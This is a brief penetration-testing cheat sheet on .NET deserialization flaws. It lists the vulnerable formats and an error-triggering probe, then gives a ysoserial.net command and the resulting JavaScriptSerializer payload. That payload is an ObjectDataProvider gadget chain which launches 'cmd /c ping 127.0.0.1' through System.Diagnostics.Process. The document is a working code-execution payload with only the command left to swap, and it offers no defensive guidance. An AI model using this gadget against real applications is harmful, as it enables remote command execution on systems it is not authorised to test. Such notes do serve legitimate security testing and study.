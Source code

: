 # Deserialization: .NET

From:
- https://speakerdeck.com/pwntester/attacking-net-serialization
- https://github.com/pwntester/ysoserial.net

.NET Deserilization vulnerabilities can occur in
- Raw Binary
- XML
- JSON
- JavaScript
- SOAP

### JavaScript Deserializer

To test, send a JSON payload of
```
{"__type":""}

```
That should cause an error

Payload generated with ysoserial.net
```
.\ysoserial.exe -o raw -g ObjectDataProvider -f JavaScriptSerializer -c "ping 127.0.0.1"
	{
	    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
	    'MethodName':'Start',
	    'ObjectInstance':{
	        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
	        'StartInfo': {
	            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
	            'FileName':'cmd',
	            'Arguments':'/c ping 127.0.0.1'
	        }
	    }
	}
```